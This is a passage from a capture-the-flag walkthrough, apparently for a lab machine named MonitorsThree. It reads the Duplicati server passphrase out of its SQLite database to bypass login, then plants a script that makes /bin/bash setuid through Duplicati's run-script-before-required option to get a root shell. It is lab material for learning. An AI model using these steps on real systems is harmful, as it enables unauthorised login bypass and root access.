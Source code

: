 If we follow the above medium blog, we can bypass the authentication.

* Take imp data from Duplicati .sqlite db

```bash
sqlite> select * from Option;
<<SNIPPED>>
-2||last-webserver-port|8200
-2||is-first-run|
-2||server-port-changed|True
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
-2||server-passphrase-trayicon|c0489d53-47d2-42ce-87d9-5f2fe4add12c
-2||server-passphrase-trayicon-hash|j6iP1Rmk39mdwq4mkP6wVkLTASWb89sIHM0qKJOeUhw=
-2||last-update-check|638604126643204640
<<SNIPPED>>
```

Take the server-passphrase from the file and follow the steps from the medium blog.\


### root shell

```bash
marcus@monitorsthree:/tmp$ cat ba.sh
#!/bin/bash
/source/usr/bin/chmod 4777 /source/bin/bash
```

Add the script in Duplicati settings

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

> **You can have the&#x20;**_**run-script-before-required**_**&#x20;option from "Add advanced option"**

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>
